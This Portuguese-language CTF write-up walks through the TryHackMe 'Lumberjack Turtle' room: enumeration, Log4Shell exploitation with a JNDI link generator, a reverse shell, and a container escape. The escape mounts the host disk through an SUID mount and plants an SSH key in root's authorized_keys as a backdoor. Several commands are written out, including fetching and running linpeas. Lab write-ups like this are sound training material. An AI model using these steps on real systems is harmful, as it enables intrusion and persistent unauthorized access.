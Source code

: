 # CTF-LUMBERJACK-THM
**Dificuldade - Média**

>Opa! parece que eu lembrei a senha do github... 🤥

<a href="https://tryhackme.com/room/lumberjackturtle"><img src="https://user-images.githubusercontent.com/32500664/161400606-1bf15aab-36be-4994-a601-e8c666be82c6.png"></a>

A maquina dá vez é a [Lumberjack Turtle](https://tryhackme.com/room/lumberjackturtle)

<h3>A maquina dá vez aborda os tópicos: CVE-2021-44228, Container Escape, Log4shell.<h3>

# 1 Enumeração:
  Pra começar a brincadeira primeiro a gente tem que descobrir com quem a gente ta brincando.
  ![1 Rodando nmap](https://user-images.githubusercontent.com/32500664/161874493-28914374-937f-4b7a-9716-d2698b6aa2b0.png)

# Pagina porta 80:
  ![2 Conteudo port80](https://user-images.githubusercontent.com/32500664/161875415-fd2367df-c044-4192-b7a6-8094404f1994.png) 
### Fuzzing na pagina 80.
  ![4 Resultado Fuff](https://user-images.githubusercontent.com/32500664/161875603-644316a9-bc69-401f-950b-2638fbdc222f.png)
  
### Pagina ~logs:
  ![5Pagina ~logs fuff](https://user-images.githubusercontent.com/32500664/161876245-742657dc-2f27-4069-b59c-78aed984566d.png)
  
### Como ele mesmo disse... Go deeper.
  ![7 Resultado fuff logs](https://user-images.githubusercontent.com/32500664/161876392-1b576890-0bbd-44c7-97ec-05fbb3aa6d04.png)

### /~logs/log4j
  ![8 Conteudo logs lo4j](https://user-images.githubusercontent.com/32500664/161878823-026187ed-469f-4a58-83e4-1f4306911a48.png)

# Explorando Log4shell:
  
### Bem didático qual a vulnerabilidade que temos que explorar.
  Vamos baixar a [ferramenta](https://github.com/welk1n/JNDI-Injection-Exploit) que vai gerar os Links JNDI que iremos injetar.
  ![9 Baixando exploit](https://user-images.githubusercontent.com/32500664/161882105-bbff5bf7-2985-4b02-a2d2-2335e1f706e8.png)

>Uma site gerador de payloads reverse shell bem simples de ser usado é o [reverse shell generator](https://www.revshells.com)
  
### Com o comando em mãos vamos usar a ferramenta para gerar os links JNDI
  ![9 1 Comando exploit](https://user-images.githubusercontent.com/32500664/161884764-6037c6f9-98df-4161-95b7-9db349b79797.png)

  ### Depois de executar o comando vamos pegar um link gerado e inserir na request.
  ![10 Usando exploit](https://user-images.githubusercontent.com/32500664/161885374-9e864f3b-7e72-407f-99bc-e9436cebc180.png)
  
  ### Adicionando um link ao corpo da requisição temos ação...
  ![10 1 Request com log4shell](https://user-images.githubusercontent.com/32500664/161885389-e8e8e04f-3226-4229-a3e7-82777c6a74af.png)

  ###... e reação.
  ![11 recebendo shell](https://user-images.githubusercontent.com/32500664/162006254-d0cb090f-a2a5-4af3-bb1f-0d39ea7ddf3f.png)

  ### Cheguei chegando. 
  ![12 verificando user](https://user-images.githubusercontent.com/32500664/162014860-149567ca-7588-48cc-b18d-d9f8f7801eb8.png)
  
  ### Entramos aqui com um objetivo não ?
  ![13 Find na 1 flag](https://user-images.githubusercontent.com/32500664/162027118-017a73d1-d5e7-40f0-acc5-71ec1915ee20.png)
  
  ![14 pegando primeira flag](https://user-images.githubusercontent.com/32500664/162027152-1a6d4563-c6d4-4f2b-8582-34342b1a66bd.png)

# Tá faltando uma flag não tá ?
  ### Depois de um tempo procurando tive a ideia de usar o linpeas para ver se dá uma luz.
 > para baixar o script na maquina use o comando `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`  e em seguinda `bash. /linpeas.sh`

  ## Dando uma olhada no que o script me diz encontro uma seção afirmando que estou dentro de um container.
  ![16 descobrindo q é container](https://user-images.githubusercontent.com/32500664/162085746-a00cc933-1d63-4b2d-9177-55bb057e9d5a.png)
 
  ### E támbém é importante olhar a seção com permissões SUID
  >O SUID é definido para dar permissões temporárias para um usuário executar um programa ou arquivo com as permissões do proprietário do arquivo.
  
  # No caso temos permissão SUID ao executar o Mount
  ![18 mount SUID](https://user-images.githubusercontent.com/32500664/162086276-088cb595-82c0-4951-b76e-7e4228d21587.png)

### Estamos em um container com permissão SUID no Mount... tá na hora escapar desse container já né ?
  
  # Container Escape:
  
  # Dando uma estudadinha sobre Docker Escape no [hacktryckz](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounting-disk-poc1) aprendemos que podemos montar e ter acesso aos arquivos do sistema hospedeiro.
  
  ### Vamos procurar os discos.
  
  ![19 verificando discos](https://user-images.githubusercontent.com/32500664/162098227-4cd0ebf1-af4c-4d42-af8c-671d0d1a7fd7.png)

  ### Após criar uma pasta onde será criada o disco usando `mkdir /mnt/host` vamos montar o sistema do hospedeiro.
  
  ![21 montando host](https://user-images.githubusercontent.com/32500664/162098208-0bb75e0f-5662-4f3c-9556-13f0e241d760.png)

  ### Mesmo depois de tudo isso o criador da maquina dormiu com um palhaço antes...
  
  ![22 root flag bait](https://user-images.githubusercontent.com/32500664/162098189-e8863c1b-39dc-47cf-b831-efa0e99bb097.png)

  ### Como temos acesso aos arquivos do hospedeiro podemos criar um "backdoor" adicionando nossa chave publica do ssh no arquivo *authorized_keys* dentro do pasta `.ssh` dentro da pasta de usuário root
  
  > Para criar as chaves ssh use o comando `ssh-keygen`
  
  ### Para inserir a chave dentro do arquivo vamos utilizar o comando `echo "${Chave} >>> /root/.ssh/authorized_keys`
  
  ![24 Colocando pub key no arquivo](https://user-images.githubusercontent.com/32500664/162098173-1428dd16-2055-4e1c-8190-4d8c0730bce8.png)

  ### Após ter feito isso vamos nos conectador a maquina hospedeira usando o ssh e nossa chave id_rsa
  
  ![25 conenctando na maquina](https://user-images.githubusercontent.com/32500664/162098114-00ac3d02-20ef-4a35-9649-1bffe295e8ab.png)
  
  ### Escape realizado e agora vamo procurar a tal flag.
  >Como não encontrei nada com o comando find vamos ao diretório do usuário root e usar o comando `ls -laR`.
  > o -l lista as permissões.
  > o -a lista todos arquivos inclusive os ocultos.
  > o -R lista diretórios e subdiretórios recursivamente.
  
  ![26 Procurando arquivo flag](https://user-images.githubusercontent.com/32500664/162098076-e5d38954-061e-4d42-a23b-eae5d28d6a80.png)
  
  ![27 resultado FIND NA FLAG ROOT](https://user-images.githubusercontent.com/32500664/162098079-c8598efc-42aa-4df9-aab1-672a0048ecc9.jpg)

  ### E voilà! Temos a ultima flag.
  
  ![28 cat flagroot](https://user-images.githubusercontent.com/32500664/162098026-0d64f49e-0823-4268-b8cf-0f54d82bf305.jpg)

  
  
  
  
  
